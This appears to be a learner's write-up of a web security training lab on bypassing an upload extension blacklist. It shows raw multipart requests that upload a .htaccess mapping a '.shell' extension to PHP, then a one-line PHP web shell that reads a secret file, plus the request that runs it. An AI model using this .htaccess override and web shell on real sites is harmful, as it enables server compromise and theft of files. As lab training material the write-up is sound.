 # Web shell upload via extension blacklist bypass

## This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed due to a fundamental flaw in the configuration of this blacklist.

## To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

## You can log in to your own account using the following credentials: `wiener:peter`

NOTE:
application/x-httpd-php => for .php
now
application/x-httpd-php .shell => .shell but php code will run

---

### step 1

upload image file and intercept send to repaeter

delete png data

------WebKitFormBoundaryYGdUrBsBP2Tz4JmV

### Content-Disposition: form-data; name="avatar"; filename="meme.jpg"

### Content-Type: image/jpeg

------WebKitFormBoundaryYGdUrBsBP2Tz4JmV
Content-Disposition: form-data; name="user"

---

now change filename="meme.jpg" and Content-Type: image/jpeg

------WebKitFormBoundaryYGdUrBsBP2Tz4JmV

### Content-Disposition: form-data; name="avatar"; filename=".htaccess"

### Content-Type: text/plain

### AddType application/x-httpd-php .shell

------WebKitFormBoundaryYGdUrBsBP2Tz4JmV
Content-Disposition: form-data; name="user"

---

------WebKitFormBoundaryYGdUrBsBP2Tz4JmV
Content-Disposition: form-data; name="avatar"; filename="test.shell"

### Content-Type: image/jpeg

<?php echo file_get_contents('/home/carlos/secret'); ?>

------WebKitFormBoundaryYGdUrBsBP2Tz4JmV
Content-Disposition: form-data; name="user"

---

### step2

GET /files/avatars/test.shell HTTP/1.1
into repeater
INkA8n9c9l0NSJwt2lPwWqq91R0qesDb

submit lab solved
